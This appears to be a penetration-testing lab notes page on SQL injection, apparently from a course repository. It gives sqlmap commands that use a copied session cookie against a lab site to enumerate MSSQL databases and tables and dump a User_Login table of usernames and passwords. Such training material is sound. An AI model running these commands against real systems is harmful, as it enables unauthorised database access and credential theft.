



[Home](../README.md)

# Module 15: SQL Injection

## Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
https://sqlmap.org/ - is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied from console type document.cookie]" --dbs```
sqlmap retrieves the databases present in the MSSQL server. It also displays information about the web server OS, web application technology, and the backend DBMS, as shown in the screenshot.


```sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied console type document.cookie]" -D moviescope --tables```
sqlmap retrieves the table contents of the moviescope database and displays them, as shown in screenshot.


```sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied console type document.cookie]" -D moviescope -T User_Login --dump```
sqlmap retrieves the complete User_Login table data from the database moviescope, containing all users’ usernames under the Uname column and passwords under the password column, as shown in screenshot.



## 